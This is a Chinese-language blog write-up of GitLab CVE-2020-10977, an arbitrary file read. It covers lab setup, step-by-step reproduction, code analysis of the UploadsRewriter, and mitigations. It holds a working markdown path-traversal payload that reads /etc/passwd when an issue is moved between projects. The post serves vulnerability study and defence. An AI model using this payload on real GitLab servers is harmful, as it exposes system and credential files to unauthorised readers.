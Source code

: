 ```yaml
---
layout: about
category: about
Researchname: GitLab CVE-2020-10977 任意文件读取漏洞
toc: true
wrench: 2022-05-18
permalink: /about/GitLab-CVE-2020-10977/
author: Bin4xin
desc: 「Gitlab」
---
```


## 概述

> GitLab 是一个用于仓库管理系统的开源项目，使用Git作为代码管理工具，并在此基础上搭建起来的web服务。
>
> GitLab是由GitLabInc.开发
>
> 使用MIT许可证的基于网络的Git仓库管理工具，且具有wiki和issue跟踪功能。使用Git作为代码管理工具，并在此基础上搭建起来的web服务。

### 如何查看Gitlab Web版本

```
https://git-lab-domain.com/help
```

如果没有相关版本，那么需要先登录

![2022-04-29-11.40.26.png]({{site.PicturesLinks_Domain}}/images/2022/04/29/2022-04-29-11.40.26.png)

如果您是运维人员，可以输入以下命令查看：

```bash
$ cat /opt/gitlab/embedded/service/gitlab-rails/VERSION
12.8.1-ee
```

### 零、CVE-2020-10977

### 0x01、CVE-2020-10977 漏洞概述

在Gitlab 8.5-12.9版本中，存在一处任意文件读取漏洞，攻击者可以利用该漏洞，在不需要特权的状态下，读取任意文件，造成严重信息泄露，从而导致进一步被攻击的风险。

### 0x02、影响版本

> GitLab GitLab CE/EE >=8.5 and <=12.9
>
> GitLab GitLab CE >=8.5，<=12.9

### 0x03、环境搭建

- [*点击以查看本地搭建漏洞版本*](https://atsud0.me/2021/03/09/CVE-2020-10977%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/#0x01-%E7%8E%AF%E5%A2%83%E5%AE%89%E8%A3%85){:target="_blank"}
- 此处不多赘述

```bash
[root@ingeek bin4xin]# systemctl stop firewalld
# CentOS关闭防火墙
[root@ingeek bin4xin]# systemctl disable firewalld.service
# CentOS取消防火墙自启动
[root@ingeek bin4xin]# systemctl status firewalld
● firewalld.service - firewalld - dynamic firewall daemon
   Loaded: loaded (/usr/lib/systemd/system/firewalld.service; enabled; vendor preset: enabled)
   Active: inactive (dead) since Wed 2022-05-04 22:11:30 EDT; 4s ago
     Docs: man:firewalld(1)
  Process: 7299 ExecStart=/usr/sbin/firewalld --nofork --nopid $FIREWALLD_ARGS (code=exited, status=0/SUCCESS)
 Main PID: 7299 (code=exited, status=0/SUCCESS)

May 04 22:10:48 ingeek systemd[1]: Stopped firewalld - dynamic firewall daemon.
May 04 22:10:48 ingeek systemd[1]: Starting firewalld - dynamic firewall daemon...
May 04 22:10:48 ingeek systemd[1]: Started firewalld - dynamic firewall daemon.
May 04 22:10:48 ingeek firewalld[7299]: WARNING: AllowZoneDrifting is enabled. This is considered an insecure configuration option. It will be removed in a future release. Please consider disabling it now.
May 04 22:11:29 ingeek systemd[1]: Stopping firewalld - dynamic firewall daemon...
May 04 22:11:30 ingeek systemd[1]: Stopped firewalld - dynamic firewall daemon.
```

或者Docker：Replicating the GitLab CE 12.8.1 Environment

```bash
$ sudo apt install docker.io
$ docker pull gitlab/gitlab-ce:12.8.1-ce.0
$ docker run gitlab/gitlab-ce:12.8.1-ce.0
```

> It will take few mins to run the container to start, in a new terminal we can check the docker process and 
>
> simultaneously get a shell on it.

### 0x04、漏洞复现

- 1.在首页随便创建一个账号，然后登陆；
- 2.登录后创建两个project/仓库，名字随意；
- 3.两个project创建完成后，在test1中创建一个issues。填入payload；

```markdown
![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../etc/passwd)
```

- 4.提交后，将这个创建好的issues move到前面创建好的另外一个project/仓库中；
  - 4.1 进入issues -> 编辑 -> 移动
- 5.点击passwd附件
- 6.enjoy

![2022-04-29-11.49.15.png]({{site.PicturesLinks_Domain}}/images/2022/04/29/2022-04-29-11.49.15.png)

### 一、CVE-2020-10977 思考

- 为什么移动issues的时候，可以读取到文件呢？

### 1x01、猜测

显而易见，当创建issues的时候，我们提交上去的markdown代码被解析成了html代码，即：

```html
<img src="https://git-lab-domain.com/ysoserial/ysoserial/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../etc/passwd" alt="a">
```

那么问题肯定出现在代码移动时，错误解析到了本地文件上，那么是哪里呢？

带着这样的疑问，去查看了相关的文章和代码；

- [Hacker one- Arbitrary file read via the UploadsRewriter when moving and issue](https://hackerone.com/reports/827052){:target="_blank"}

### 1x02、代码分析

作者提出：

- The UploadsRewriter does not validate the file name, allowing arbitrary files to be copied via directory traversal when moving an issue to a new project.
  The pattern used to look for references is :
- `UploadsRewriter`不验证文件名，允许在将问题移动到新项目时通过目录遍历复制任意文件，寻找引用的模式如下：

```ruby
  MARKDOWN_PATTERN = %r{\!?\[.*?\]\(/uploads/(?<secret>[0-9a-f]{32})/(?<file>.*?)\)}.freeze
```

`%r` 为正则表达，用法可以参考：
- [*相关用法*](https://blog.csdn.net/weixin_30907935/article/details/94885961){:target="_blank"}

并且：

- This is used by the UploadsRewriter when copying an issue to also copy across the files:
- 在当拷贝issue时同时也能够实现能够跨文件复制，就是因为`UploadsRewriter`的使用：

```ruby
#/opt/gitlab/embedded/service/gitlab-rails/lib/gitlab/gfm/uploads_rewriter.rb:

   @text.gsub(@pattern) do |markdown|
          file = find_file(@source_project, $~[:secret], $~[:file])
          break markdown unless file.try(:exists?)

          klass = target_parent.is_a?(Namespace) ? NamespaceFileUploader : FileUploader
          moved = klass.copy_to(file, target_parent)
   ...
   def find_file(project, secret, file)
        uploader = FileUploader.new(project, secret: secret)
        uploader.retrieve_from_store!(file)
        uploader
      end
```

### 二、修复

### 2x01、 关闭注册功能

大部分问题都是通过匿名用户注册后，在仓库内操作导致的问题，故：取消游客的注册能够减少80%的问题

以Admin用户登录后，进入：

`Admin Area` -> `Setting` -> `Sign-up restrictions`

确保`Sign-up Restrictions` 下 `Sign-up enabled`为未勾选状态。

### 2x02、更新版本

- 但取消注册后，或许仍然有一些不需要授权的漏洞，所以尽可能保持软件的版本与上游版本保持一致；

### 三、参考

- [Hacker one- Arbitrary file read via the UploadsRewriter when moving and issue](https://hackerone.com/reports/827052){:target="_blank"}
- [CVE-2020-10977 Gitlab任意文件读取导致远程命令执行](https://github.com/EdgeSecurityTeam/Vulnerability/blob/main/CVE-2020-10977%20Gitlab%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E5%AF%BC%E8%87%B4%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C.md){:target="_blank"}
- [GitLab任意文件读取漏洞复现(CVE-2020-10977)](https://zhuanlan.zhihu.com/p/340584527/){:target="_blank"}
- [GitLab任意文件读取漏洞CVE-2020-10977](https://www.freebuf.com/vuls/235982.html){:target="_blank"}
- [HackTheBox — Laboratory Writeup](https://coldfusionx.github.io/posts/LaboratoryHTB/){:target="_blank"}
- [CentOS 7手把手教你搭建gitlab环境](https://juejin.cn/post/6871249593749733383){:target="_blank"}
- [gitlab注销注册功能](https://blog.csdn.net/weixin_43606948/article/details/85222499){:target="_blank"}